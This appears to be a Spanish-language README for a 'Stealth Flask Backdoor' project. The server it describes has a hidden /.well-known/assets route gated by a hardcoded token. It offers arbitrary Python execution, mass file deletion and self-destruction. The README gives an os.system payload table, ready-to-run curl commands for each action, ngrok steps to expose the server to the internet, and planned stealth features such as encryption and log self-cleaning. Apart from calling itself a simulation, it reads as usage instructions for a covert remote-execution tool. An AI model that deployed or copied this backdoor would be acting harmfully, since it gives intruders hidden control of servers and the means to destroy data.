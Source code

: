 # 🕵️ Stealth Flask Backdoor


Este microservidor Flask simula una puerta trasera

## 🚀 Funcionalidades

- ✅ Ruta oculta: `POST /.well-known/assets`
- 🔐 Requiere header de autenticación:  
  `X-Auth-Token: U3VwZXJTZWNyZXQ=`  ← base64("SuperSecret")
- 🎯 Acciones disponibles vía parámetro `act`:
  - `act=borrar` → borra todos los archivos en `./books`
  - `act=ejecutar` → ejecuta código Python arbitrario
  - `act=autodestruir` → borra el script `backdoor.py`
- 📁 Genera un registro oculto en `.syslog` con la IP y actividad

---

## 🧪Payloads útiles (acción: `ejecutar`)

| Payload                                             | Descripción                             |
|-----------------------------------------------------|-----------------------------------------|
| `print("Hola mundo")`                              | Imprime en consola del servidor         |
| `open("flag.txt", "w").write("")`                 | Escribe un archivo de texto             |
| `__import__('os').system('ls')`                     | Ejecuta un comando del sistema          |
| `__import__('socket').gethostbyname(...)`           | Obtener la IP del servidor              |
| `__import__('shutil').copy("f", "dest")`            | Copiar archivos                         |


🕵️ Log de Actividad
Todos los accesos exitosos se registran en el archivo .syslog, incluyendo:

```log
Registro: 192.168.0.45
Registro: acción ejecutada
```

🌐 Exposición remota
¿No estás en red pública? Usa ngrok:
```bash
ngrok http 5000
```   
Y luego accede desde cualquier parte del mundo vía HTTPS.


---
## 📦 Ejecución

📡 Activación remota (desde otra máquina)
Requisitos:
Agregar el header:
X-Auth-Token: U3VwZXJTZWNyZXQ=
🔥 Ejecutar código Python:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=ejecutar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'open("flag.txt", "w").write("Pwned!")'
```
🧨 Borrar archivos:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=borrar" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
💀 Autodestrucción:
```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=autodestruir" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ="
```
```bash
pip install -r requirements.txt
python backdoor.py
```
Accede desde otro sistema:

```bash
curl -X POST "http://<host>:5000/.well-known/assets?act=script" \
  -H "X-Auth-Token: U3VwZXJTZWNyZXQ=" \
  --data 'print("Backdoor activada")'
```

---

 Mejoras futuras
 
 - Añadir cifrado AES a los scripts

 - Backdoor activada por Redis

 - Modos silenciosos de respuesta (stealth logs, autolimpieza)
